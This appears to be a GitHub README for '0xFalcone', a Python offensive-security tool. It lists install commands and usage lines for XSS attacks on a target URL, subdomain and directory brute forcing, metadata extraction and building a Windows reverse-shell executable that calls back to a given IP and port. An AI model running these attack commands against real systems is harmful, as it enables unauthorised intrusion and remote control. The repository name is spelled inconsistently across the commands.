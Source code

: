 # 0xFalcone
<h3>Installation</h3>
 Install 0xFalcone Tool:
<hr>

```apt install git```

``` git clone https://github.com/hassanalharbi123/0xFalcon ```

``` cd 0xFlacon ```

``` python3 install.py ```
<hr>

<h3>Usage</h3>

``` python3 exploit.py -h ```

![image](https://user-images.githubusercontent.com/76629405/147748640-229c15f4-51ca-42b6-b4b7-343a96b84785.png)

 Example XSS Tool: ``` python3 exploit.py -u xss -T http://example.com -L list.txt -m GET -n username ```
 
 Windows Reverse Shell: ``` python3 exploit.py -u shell -y exe -I 127.0.0.1 -P 1111 -F payloadexe  ```
 
 ![image](https://user-images.githubusercontent.com/76629405/147749039-ac562649-0096-4e82-a004-5071f8e8384f.png)
 
 Subdomains Brute Force: ``` python3 exploit.py -u subdomain -T http://example.com -L list.txt ```
 and you can also Brute Force Attack (Files and Folders), Extract Picture metadata.
